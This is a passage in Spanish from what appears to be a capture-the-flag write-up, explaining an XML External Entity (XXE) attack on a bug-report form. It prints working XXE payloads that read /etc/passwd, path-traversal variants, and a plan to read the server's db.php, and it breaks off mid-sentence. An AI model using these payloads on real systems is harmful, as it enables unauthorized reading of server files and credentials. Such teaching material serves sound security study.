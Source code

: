 Vemos que se manda una estructura como el de los logs, cuando se manda informacion en XML o se puede cargar un XML en una pagina web, podemos testear el ataque de XXE (XML External Entity).

Es crear una estructura en xml donde nosotros podemos leer archivos locales o hacer muchas cosas mas. Vimos anteriormente que habia un archivo **db.php** en el servidor y con XXE podriamos intentar leer ese archivo. Ven como se conectan las cosas.

El ataque de XXE tendria la siguiente estructura:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "filter:///etc/passwd" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>&xxe;</cwe>
		<cvss>&xxe;</cvss>
		<reward>&xxe;</reward>
	</bugreport>
```

En este ejemplo leemos el archivo **/etc/passwd** y la carga util (**xxe;**) se lo coloca en un valor de un atributo el cual pensamos que es vulnerable, como no sabemos en cual podria se ese atributo lo podemos mandar en todos. Puede probar varios wrapper de LFI para PHP para leer un archivo, por ejemplo:

```bash
file:///etc/passwd
/etc/passwd
../../../../../../etc/passwd
etc.
```

el que funciono para ver el archivo /etc/passwd es el siguiente:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "/etc/passwd" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>&xxe;</cwe>
		<cvss>&xxe;</cvss>
		<reward>&xxe;</reward>
	</bugreport>
```

Mediante el decoder de burpsuit podemos codficarlo primero en base64 y luego en urlencode para despues mediante el repeater mandarlo como data:
